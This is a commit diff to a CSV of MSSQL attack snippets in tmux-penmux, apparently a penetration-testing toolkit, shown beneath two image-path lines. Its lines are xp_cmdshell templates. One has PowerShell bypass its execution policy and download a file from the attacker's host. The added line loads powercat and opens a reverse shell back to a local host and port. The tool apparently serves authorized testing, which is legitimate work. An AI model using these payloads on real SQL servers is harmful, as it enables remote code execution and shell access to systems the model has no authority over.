

Before and after one commit to mfulz/tmux-penmux, a CSV file: modules/auxiliary/misc/snipper/snippets/databases/sql/mssql.csv, drawn as a sheet.

Commit message:
Features
- Snipper: Added some Options to xml
- Snipper: More mssql snippets

```diff
--- a/modules/auxiliary/misc/snipper/snippets/databases/sql/mssql.csv
+++ b/modules/auxiliary/misc/snipper/snippets/databases/sql/mssql.csv
@@ -3 +3,2 @@ MsSQLExecuteCommand,MsSQL comamnd execution via xp_cmdshell,"xp_cmdshell '§§§
 MsSQLExecuteCommandPsDownload,MsSQL comamnd execution via xp_cmdshell (download file via powershell),"xp_cmdshell 'powershell -ep bypass -nop iwr -uri ###HttpUri###§§§file§§§ -outfile §§§file§§§';",§§§file§powercat.ps1§filename to download from host§§§
+MsSQLExecutePowercat,MsSQL comamnd execution via xp_cmdshell (powercat connection to host),"xp_cmdshell 'powershell -ep bypass -nop . powercat.ps1; powercat -c ###LocalHost### -p ###LocalPort### -ep';",
```
Also changed, not shown: 2 other files.
